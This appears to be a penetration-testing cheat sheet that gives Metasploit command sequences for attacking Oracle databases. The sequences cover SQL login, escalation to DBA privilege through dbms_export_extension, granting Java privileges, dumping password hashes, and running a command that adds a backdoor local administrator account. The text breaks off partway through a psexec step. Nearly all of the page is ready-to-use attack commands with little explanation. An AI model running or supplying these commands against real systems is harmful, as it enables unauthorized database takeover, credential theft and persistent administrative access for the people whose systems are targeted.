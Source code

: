 SQL login utility

{% highlight PowerShell %}
msf auxiliary(login_brute) > use admin/oracle/oracle_sql
msf auxiliary(oracle_sql) > set RHOST <oracle-ip>
RHOST => <oracle-ip>
msf auxiliary(oracle_sql) > set SID <sid>
SID => <sid>
msf auxiliary(oracle_sql) > run
{% endhighlight %}

List privilege

{% highlight PowerShell %}
msf auxiliary(oracle_sql) > set SQL "select * from user_role_privs"
SQL => select * from user_role_privs
msf auxiliary(oracle_sql) > run
{% endhighlight %}

Give DBA privilege

{% highlight PowerShell %}
msf > use sqli/oracle/dbms_export_extension
msf auxiliary(dbms_export_extension) > set RHOST <oracle-ip>
RHOST => <oracle-ip>
msf auxiliary(dbms_export_extension) > set SID <sid>
SID => <sid>
msf auxiliary(dbms_export_extension) > run
{% endhighlight %}

Grant javasys to spawn shell

{% highlight PowerShell %}
msf auxiliary(oracle_sql) > set SQL "grant javasyspriv to <user>"
SQL => grant javasyspriv to <user>
msf auxiliary(oracle_sql) > run
[*] Sending SQL...
[*] Done...
[*] Auxiliary module execution completed
msf auxiliary(oracle_sql) > set SQL "select * from user_role_privs"
SQL => select * from user_role_privs
msf auxiliary(oracle_sql) > run
{% endhighlight %}

Oracle Hashdump

{% highlight PowerShell %}
use auxiliary/scanner/oracle/oracle_hashdump
{% endhighlight %}

Spawn Shell

if you got the dba privilege of the oracle db, try this:

{% highlight PowerShell %}
msf > use admin/oracle/post_exploitation/win32exec
msf auxiliary(win32exec) > set CMD "net user nta007 m0nitoR123* /add && net localgroup administrators nta007 /add"
CMD => net user nta007 m0nitoR123* /add && net localgroup administrators nta007 /add
msf auxiliary(oracle_win32) > set SID <sid>
SID => <sid>
msf auxiliary(oracle_win32) > set RHOST <oracle-ip>
RHOST => <oracle-ip>
msf auxiliary(oracle_win32) > run

THEN

msf > use windows/smb/psexec
msf exploit(psexec) > set RHOST <oracle-ip>
RHOST => <oracle-ip>